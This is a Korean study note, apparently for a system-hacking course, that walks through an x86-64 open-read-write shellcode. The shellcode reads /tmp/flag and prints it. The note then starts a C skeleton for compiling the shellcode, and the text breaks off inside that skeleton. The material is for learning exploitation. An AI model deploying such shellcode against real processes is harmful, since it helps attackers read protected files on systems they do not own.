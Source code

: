 - 출력은 `stdout` 으로 할 것이므로, `rdi` 를 `0x1` 로 설정
- `rsi` 와 `rdx` 는 `read` 에서 사용한 값을 그대로 사용
- `write` 시스템콜을 호출 할 것이므로 `rax`를 1로 설정
- **구현**

```nasm
mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```

### 종합 결과

```nasm
;Name: orw.S

push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)

mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)

mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```

## orw 셸코드 컴파일 및 실행

---

- 대부분의 운영체제는 실행가능한 파일의 형식을 지정하고 있음 (윈도우 : `PE` , 리눅스 : `ELF` )
- 크게 헤더와 코드 그리고 기타 데이터로 구성되어 있는데, 헤더에는 실행에 필요한 여러 정보가 적혀있고, 코드에는 CPU가 이해할 수 있는 기계어 코드가 적혀있음
- 위에서 작성한 셸 코드는 어셈블리 코드이므로, 기계어로 치환하면 CPU는 이해할 수 있으나 `ELF` 형식이 아니므로 리눅스에서 실행될 수 없음
    - `gcc` 컴파일을 통해서 `ELF` 형식으로 변환시켜줘야함

### 컴파일

- 어셈블리 코드를 컴파일하는 방법에는 여러가지가 있으나, 여기선 셸코드를 실행할 수 있는 `스켈레톤 코드(기본 구조만 갖춘 코드)` 를 C언어로 작성하고, 거기에 셀코드를 탑재하는 방법을 사용
- 스켈레톤 코드 예제

```nasm
// File name: sh-skeleton.c
// Compile Option: gcc -o sh-skeleton sh-skeleton.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "Input your shellcode here.\n"
    "Each line of your shellcode should be\n"
    "seperated by '\n'\n"

    "xor rdi, rdi   # rdi = 0\n"
    "mov rax, 0x3c	# rax = sys_exit\n"
```